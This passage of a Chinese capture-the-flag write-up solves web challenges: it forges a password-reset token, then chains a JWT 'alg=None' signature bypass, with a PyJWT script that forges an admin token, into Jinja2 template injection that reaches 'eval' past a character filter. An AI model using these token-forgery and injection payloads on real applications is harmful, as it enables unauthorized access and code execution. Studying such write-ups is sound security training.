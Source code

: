 
按照代码构造`token`，得到flag

```
GET /forget/setp2.php?emailAddress=admin@simplexue.com&token=0000000000
```

### py一波吧-ssti+jwt_1

`JWT alg=None 签名bypass攻击` -> `SSTI`，强行把两道题拼成一道题，没有第一步不能进入SSTI

~~~html
随便输入一个用户名密码，将cookie里面的token提取出来，解base64可得

```
{"alg":"HS256","typ":"JWT"}.{"username":"admin1"}.signature
```
~~~

可以生成一个用户名为admin的`token`

```python
#encoding: utf-8 
#PyJWT
import jwt 
import time 
 
 
 
def create_token(): 
    payload = { 
         "username": "admin" 
    } 
    token = jwt.encode(payload, None, algorithm=None) 
    print token 
 
 
create_token()
```

把token换上去，就可以进入SSTI流程了。

SSTI过滤了：单引号、os、system、[]

Jinja2对与不存在的对象有一个特殊的定义**Undefined**类，`<class 'jinja2.runtime.Undefined'>`

**jinja2/runtime.py**

```python
@implements_to_string
class Undefined(object):
    ...
```

通过构造`title={{vvv.__class__.__init__.__globals__ }}`就可以搞事情了，发现有个`eval`，就是它了。

```python
{'new_context': <function new_context at 0x7fc79bb4faa0>, 'chain': <type 'itertools.chain'>, '_context_function_types': (<type 'function'>, <type 'instancemethod'>), 'resolve_or_missing': <function resolve_or_missing at 0x7fc79bb4fcf8>, 'Namespace': <class 'jinja2.utils.Namespace'>, 'ContextMeta': <class 'jinja2.runtime.ContextMeta'>, 'evalcontextfunction': <function evalcontextfunction at 0x7fc79bd919b0>, 'escape': <built-in function escape>, 'LoopContext': <class 'jinja2.runtime.LoopContext'>, '_first_iteration': <object object at 0x7fc79f5b2190>, 'TemplateNotFound': <class 'jinja2.exceptions.TemplateNotFound'>,···'eval': <built-in function eval>
```
